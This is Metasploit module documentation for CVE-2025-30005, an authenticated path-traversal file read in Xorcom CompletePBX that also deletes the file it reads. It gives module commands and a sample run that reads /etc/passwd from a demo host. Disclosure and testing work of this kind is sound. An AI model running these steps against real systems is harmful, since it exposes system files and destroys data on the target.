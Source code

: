 ## Vulnerable Application

This Metasploit module exploits an **Authenticated Arbitrary File Read and Deletion** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue arises due to improper validation of the `systemDataFileName` parameter in the `diagnostics` module,
allowing an attacker to retrieve arbitrary files from the system.

Additionally, this vulnerability **automatically deletes the requested file** after being accessed,
leading to potential data loss on the target.

The vulnerability is identified as **CVE-2025-30005**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use auxiliary/admin/http/xorcom_completepbx_diagnostics_file_read
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Specify the file to read (before deletion):
```
set TARGETFILE /etc/passwd
```
7. Execute the module:
```
run
```
8. If successful, the contents of the specified file will be displayed before its deletion.

## Options

- `USERNAME`: Admin username for authentication.
- `PASSWORD`: Admin password for authentication.
- `TARGETFILE`: Path of the file to retrieve (**before automatic deletion**).

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 auxiliary(xorcom_completepbx_diagnostics_file_read) > run https://rnd-repo.cpbxmt-demo187.xorcom.com
[*] Running module against 142.93.233.32

[*] Attempting authentication with username: admin
[+] Authentication successful! Session ID: sid=c8f08002130196439747e488447260f48d595c51
[*] Attempting to read file: ../../../../../../../../../../../etc/passwd
[*] ZIP file received, attempting to list files
[*] Files inside ZIP archive:
 - ../../../../../../../../../../../etc/passwd
 - full_20250318_160522
 - audit_20250318_160522.log
[+] Content of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:108:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:106:110::/var/spool/postfix:/usr/sbin/nologin
tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
Debian-snmp:x:110:113::/var/lib/snmp:/bin/false
asterisk:x:111:114:Asterisk PBX daemon,,,:/var/lib/asterisk:/usr/sbin/nologin
cc-cloud-rec:x:998:998::/var/lib/cc-cloud-rec:/sbin/nologin

[!] WARNING: This exploit causes the deletion of the requested file on the target if the privileges allows it.
[*] Auxiliary module execution completed
```

### Impact

- This vulnerability grants **file read access**, but also **automatically deletes** the retrieved file.
- Attackers can extract sensitive data (e.g., user credentials) while simultaneously causing **data loss** on the system.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
